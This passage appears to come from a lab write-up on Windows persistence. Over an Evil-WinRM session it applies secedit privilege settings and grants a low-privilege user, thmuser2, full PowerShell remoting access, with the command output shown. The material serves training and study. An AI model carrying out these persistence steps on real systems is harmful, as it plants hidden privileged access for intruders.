 Now we convert the inf to sdb and assign the privs
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> secedit /import /cfg config.inf /db config.sdb
*Evil-WinRM* PS C:\Users\Administrator\Documents> secedit /configure /db config.sdb /cfg config.inf
Completed 1 percent (0/63)      Process Privilege Rights area
Completed 3 percent (1/63)      Process Privilege Rights area
Completed 4 percent (2/63)      Process Privilege Rights area
Completed 6 percent (3/63)      Process Privilege Rights area
Completed 7 percent (4/63)      Process Privilege Rights area
Completed 9 percent (5/63)      Process Privilege Rights area
Completed 11 percent (6/63)     Process Privilege Rights area
Completed 12 percent (7/63)     Process Privilege Rights area
Completed 14 percent (8/63)     Process Privilege Rights area
Completed 15 percent (9/63)     Process Privilege Rights area
Completed 17 percent (10/63)    Process Privilege Rights area
Completed 19 percent (11/63)    Process Privilege Rights area
Completed 20 percent (12/63)    Process Privilege Rights area
Completed 22 percent (13/63)    Process Privilege Rights area
Completed 23 percent (14/63)    Process Privilege Rights area
Completed 25 percent (15/63)    Process Privilege Rights area
Completed 25 percent (15/63)    Process Group Membership area
Completed 49 percent (30/63)    Process Group Membership area
Completed 49 percent (30/63)    Process Registry Keys area
Completed 49 percent (30/63)    Process File Security area
Completed 49 percent (30/63)    Process Services area
Completed 65 percent (40/63)    Process Services area
Completed 73 percent (45/63)    Process Services area
Completed 73 percent (45/63)    Process Security Policy area
Completed 77 percent (48/63)    Process Security Policy area
Completed 84 percent (52/63)    Process Security Policy area
Completed 88 percent (55/63)    Process Security Policy area
Completed 93 percent (58/63)    Process Security Policy area
Completed 100 percent (63/63)   Process Security Policy area

The task has completed successfully.
See log %windir%\security\logs\scesrv.log for detail info.
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

We set the user to allow access to powershell sessions with the following UI based mod. Add the new user with full-control
```powershell
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

```powershell
*Evil-WinRM* PS C:\Users\thmuser2\Documents> net user thmuser2
User name                    thmuser2
Full Name                    thmuser2
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/28/2022 11:48:03 PM
Password expires             Never
Password changeable          5/28/2022 11:48:03 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
```